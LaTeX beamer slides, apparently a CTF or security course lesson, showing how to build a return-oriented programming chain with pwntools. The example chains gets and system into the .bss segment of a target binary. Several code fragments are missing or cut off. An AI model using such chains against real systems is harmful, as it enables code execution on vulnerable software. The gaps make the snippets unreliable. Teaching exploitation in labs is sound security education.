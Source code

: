 \documentclass[aspectratio=169]{beamer}
\newcommand{\reg}[1]{\%\texttt{#1}}
\newcommand{\docl}[1]{(\textbf{\href{#1}{Documentation}})}
\begin{document}
{\begin{frame}[fragile]
    \frametitle{ROP \docl{http://docs.pwntools.com/en/stable/rop/rop.html}}    
    \begin{itemize}
        \item initialize with  (only specify base if known)
        \item add calls to our chain with 
        \begin{itemize}
            \item arguments can also be register names, e.g. 'rsp'
            \item can also directly use , e.g. 
            \item possible to call syscalls not in binary, e.g. above example even if no read function in binary (pwntools automatically tries an SROP)
        \end{itemize}
        \item inspect chain with 
        \item convert chain to bytes with 
        \item \textbf{Note:} add enough characters in front of , such that the first byte of  overwrites first byte of saved \reg{rip}
    \end{itemize}
\end{frame}

\begin{frame}[fragile]
    \frametitle{Example ROP}
\begin{codebox}{python}
rop = ROP(exe)
rop.gets(exe.bss(0x20))
rop.system(exe.bss(0x20))
log.info("Chain: %
# [+] Chain: 0x0000:         0x40131b pop rdi; ret
# 0x0008:         0x4040a0 [arg0] rdi = stderr
# 0x0010:         0x401060 gets
# 0x0018:         0x40131b pop rdi; ret
# 0x0020:         0x4040a0 [arg0] rdi = stderr
# 0x0028:         0x401040 system
\end{codebox}
\end{frame}

}
\end{document}
